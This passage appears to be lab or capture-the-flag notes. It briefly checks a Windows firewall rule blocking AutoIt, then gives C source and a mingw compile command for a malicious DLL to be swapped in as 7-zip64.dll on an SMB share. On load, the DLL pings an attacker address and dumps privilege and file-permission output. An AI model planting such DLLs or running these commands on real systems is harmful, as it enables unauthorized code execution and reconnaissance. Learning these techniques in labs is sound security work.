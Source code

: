 ```powershell
Block Autoit
```

Block Autoit is weird.

```powershell
Get-NetFirewallRule -PolicyStore ActiveStore -Name "{D7871DF0-F71B-4BD0-B7DE-F8E6966A3640}" | Get-NetFirewallApplicationFilter

C:\share\AutoIt3_x64.exe
```

## DLL hijacking
make dll.
```c
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
  switch(dwReason)
  {
    case DLL_PROCESS_ATTACH:
      system("cmd.exe /c ping 10.10.14.25");
      break;
  }
  return TRUE;
}

```

Compile it:
```
x86_64-w64-mingw32-gcc-win32 dll.c -o 7-zip64.dll -shared
```

use 7-zip64.dll as we can replace that file in smb.

This works and send a ping back. :)

Let's change the dll so it checks permissions on files in the share drive.
```c
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
  switch(dwReason)
  {
    case DLL_PROCESS_ATTACH:
      system("cmd.exe /c ping 10.10.14.25");
      system("cmd.exe /c whoami /all >> C:\\users\\public\\out.txt");
      system("cmd.exe /c icacls C:\\share >> C:\\users\\public\\out.txt");
      system("cmd.exe /c icacls C:\\share\\* >> C:\\users\\public\\out.txt");
      system("cmd.exe /c icacls C:\\share\\scripts\\* >> C:\\users\\public\\out.txt");
      break;
  }
  return TRUE;
}

```
